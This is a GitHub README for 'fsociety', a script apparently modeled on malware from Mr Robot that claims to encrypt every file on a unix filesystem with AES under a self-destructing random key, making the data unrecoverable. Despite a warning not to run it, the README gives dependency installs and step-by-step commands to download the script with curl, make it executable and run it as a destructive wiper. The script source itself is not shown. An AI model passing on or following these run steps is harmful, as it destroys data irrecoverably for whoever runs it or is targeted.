 # fsociety
__WARNING: do not actually execute this. You will not be able to recover the files.__

This is intended to encrypt every bit of data in a unix filesystem using 256-bit AES with 
a self-destructing, randomly generated key.

The fuxsocy.py script is based on Darlene's malware shown in Mr Robot

## S2E1:

![alt text](https://i.imgur.com/6RIogYa.jpg)

### Dependencies:

* Python3
* pycrypto

```shell
sudo apt install python3 python3-pip
```
```shell
sudo pip3 install pycrypto
```

### Usage:

```shell
curl https://raw.githubusercontent.com/joekendal/fsociety/master/fuxsocy.py
```
```shell
sudo chmod +x fuxsocy.py
```
```shell
./fuxsocy.py
```
